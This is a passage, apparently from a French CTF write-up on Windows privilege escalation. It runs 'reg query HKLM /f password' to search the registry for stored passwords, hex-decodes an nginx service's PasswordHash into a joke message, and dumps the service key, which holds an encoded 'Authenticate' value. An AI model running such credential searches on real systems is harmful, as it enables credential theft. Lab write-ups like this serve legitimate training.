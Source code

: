 ```plain
c:\>reg query HKLM /f password /t REG_SZ /s
reg query HKLM /f password /t REG_SZ /s

HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{6BC0989B-0CE6-11D1-BAAE-00C04FC2E20D}\ProgID
    (Default)    REG_SZ    IAS.ChangePassword.1

HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{6BC0989B-0CE6-11D1-BAAE-00C04FC2E20D}\VersionIndependentProgID
    (Default)    REG_SZ    IAS.ChangePassword

HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{6f45dc1e-5384-457a-bc13-2cd81b0d28ed}
    (Default)    REG_SZ    PasswordProvider

HKEY_LOCAL_MACHINE\SOFTWARE\Classes\CLSID\{8841d728-1a76-4682-bb6f-a9ea53b4b3ba}
    (Default)    REG_SZ    LogonPasswordReset

HKEY_LOCAL_MACHINE\SOFTWARE\Classes\IAS.ChangePassword\CurVer
    (Default)    REG_SZ    IAS.ChangePassword.1

--- snip ---

HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\nginx
    PasswordHash    REG_SZ    336d72676e6333205361797a205472794861726465722e2e2e203b440a

HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\RemoteAccess\Policy\Pipeline\23
    (Default)    REG_SZ    IAS.ChangePassword

HKEY_LOCAL_MACHINE\SYSTEM\ControlSet002\Control\Terminal Server\DefaultUserConfiguration
    Password    REG_SZ

HKEY_LOCAL_MACHINE\SYSTEM\ControlSet002\Control\Terminal Server\WinStations\RDP-Tcp
    Password    REG_SZ
```

Quel est donc ce *PasswordHash* pour le service Nginx ?  

```python
>>> from binascii import unhexlify
>>> unhexlify("336d72676e6333205361797a205472794861726465722e2e2e203b440a")
b'3mrgnc3 Sayz TryHarder... ;D\n'
```

Vraiment très drôle (ou pas) !  

Si on regarde plus en détail cette clé on a quand même une autre valeur intéressante :  

```plain
[HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Services\nginx]
"Type"=dword:00000010
"Start"=dword:00000002
"ErrorControl"=dword:00000001
"ImagePath"=hex(2):43,00,3a,00,5c,00,50,00,72,00,6f,00,67,00,72,00,61,00,6d,00,\
  20,00,46,00,69,00,6c,00,65,00,73,00,5c,00,6e,00,73,00,73,00,6d,00,5c,00,77,\
  00,69,00,6e,00,33,00,32,00,5c,00,6e,00,73,00,73,00,6d,00,2e,00,65,00,78,00,\
  65,00,00,00
"DisplayName"="Nginx"
"ObjectName"=".\\nginx"
"Description"="Nginx web server and proxy."
"DelayedAutostart"=dword:00000000
"FailureActionsOnNonCrashFailures"=dword:00000001
"FailureActions"=hex:00,00,00,00,00,00,00,00,00,00,00,00,03,00,00,00,14,00,00,\
  00,01,00,00,00,60,ea,00,00,01,00,00,00,60,ea,00,00,01,00,00,00,60,ea,00,00
"Authenticate"=hex:48,00,37,00,33,00,42,00,70,00,55,00,59,00,32,00,55,00,71,00,\
  39,00,55,00,2d,00,59,00,75,00,67,00,79,00,74,00,35,00,46,00,59,00,55,00,62,\
  00,59,00,30,00,2d,00,55,00,38,00,37,00,74,00,38,00,37,00,00,00,00,00
"PasswordHash"="336d72676e6333205361797a205472794861726465722e2e2e203b440a"
```